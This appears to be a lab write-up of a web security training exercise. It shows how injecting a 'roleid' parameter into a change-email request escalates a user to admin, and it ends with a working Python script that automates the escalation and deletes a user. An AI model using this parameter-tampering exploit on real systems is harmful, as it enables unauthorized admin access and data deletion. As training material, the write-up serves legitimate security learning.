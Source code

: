 # Lab: User role can be modified in user profile

This lab has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of 2.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---


### Exploitation of Role Parameter to Access `/admin`

After logging in with our user credentials, we navigated to the `/admin` resource and received the following response:
![image](https://github.com/user-attachments/assets/c0e85c3d-1a2f-4bba-b11b-eac739d3b3b6)

---

### Investigating Parameter Transactions
We inspected all functionalities in search of parameter transactions, particularly focusing on the potential injection of the `roleid` parameter. In the `/my-account` endpoint, parameters are processed when making a GET request:
![image](https://github.com/user-attachments/assets/ca14b5df-010c-4cf3-ac20-ba643df1ec3b)

---

### Email Change Functionality
When testing the email change functionality, we observed the following behavior:
![image](https://github.com/user-attachments/assets/94860afc-cac9-43f8-9674-dc8627e99265)

We attempted to inject the `roleid=2` parameter:
![image](https://github.com/user-attachments/assets/87003534-c57a-4444-9ced-24614c319485)

---

### Successful Access to `/admin`
This allowed us to successfully request the `/admin` resource:
![image](https://github.com/user-attachments/assets/d4c830bf-1c34-49cf-bed3-85784c52a03c)

---

### Final Steps: Deleting a User
We deleted the user "carlos" and resolved the lab:
![image](https://github.com/user-attachments/assets/2009d6c5-2da0-4089-9007-af74f9e65b51)

![image](https://github.com/user-attachments/assets/4585b6be-f4f1-497d-aa66-f62d09be83f1)


---

We can also perform the following python script to resolve the lab:
```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(s, url):

    # login as the wiener user
    login_url = url + "/login"
    data_login = {"username": "wiener", "password": "peter"}
    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user.")

        # Change the role id of the user
        change_email_url = url + "/my-account/change-email"
        data_role_change = {"email":"test@test.ca", "roleid": 2}
        r = s.post(change_email_url, json=data_role_change, verify=False, proxies=proxies)
        res = r.text
        if 'Admin' in res:
            print("(+) Successfully changed the role id.")

            # Delete the Carlos user
            delete_carlos_user_url = url + "/admin/delete?username=carlos"
            r = s.get(delete_carlos_user_url, verify=False, proxies=proxies)

            if r.status_code == 200:
                print("(+) Successfully delete Carlos user.")
            else:
                print("(-) Could not delete Carlos user.")
                sys.exit(-1)
        else:
            print("(-) Could not change the role id.")
            sys.exit(-1)
    else:
        print("(-) Could not login as the wiener user.")
        sys.exit(-1)



def main():
    if len(sys.argv) != 2:
        print("Usage: %s <url>" % sys.argv[0])
        print("Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    delete_user(s, url)


    

if __name__ == "__main__":
    main()
```
